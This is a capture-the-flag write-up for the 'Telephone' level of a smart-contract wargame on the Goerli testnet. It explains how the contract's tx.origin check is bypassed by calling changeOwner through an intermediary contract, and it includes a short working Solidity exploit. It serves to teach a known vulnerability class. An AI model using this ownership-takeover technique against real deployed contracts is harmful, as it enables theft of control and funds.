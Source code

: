 Level 4
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0xcac0947ce370fbb8ae3f63af306ebb76e91cf8053bca6fe4bcf09d566e7e3b90
Submission transaction: https://goerli.etherscan.io/tx/0x5eca05378594df594c8b8ec2c51763ec06a0eda5bb18574b537b5838c3096a16

-------
This challenge's task is to claim ownership of the Telephone contract. 
The solution to it is in the changeOwner function. 
The condition to change the owner is that tx.origin is different than the msg.sender.
Smart contracts cannot initiate function calls, as they don't have the capability of sending signed transactions. The trigger must be done by Externally Owned Accounts(EOA).
tx.origin corresponds to the externally owned account that has started the all function calls inside a transaction. Msg.sender is the address who is doing a specific call. It can be
a Contract Account or an EOA.

#### Exploit contract:

The interface refers to Telephone 's changeOwner function. 
To solve the challenge, we deploy a script that will deploy this exploit then make a _changeOwner function call. The contract itself will call the changeOwner function at the Telephone's
contract, meaning it is the msg.sender. My account is the tx.origin.

```
    interface Telephone{
        function changeOwner(address _owner);
    }

    contract TelephoneExploit {
        address private target;

    constructor (address _target)  {
        target = _target;
    }
    function _changeOwner() external{
        // this msg.sender value is the caller's address.
        Telephone(target).changeOwner(msg.sender);
        
    }



}

```

[Ownership claim tx]('https://goerli.etherscan.io/tx/0x95c0e445d6b3929c4c98c5767024ed6ab697514877107f6e86fff22d20299cbb');







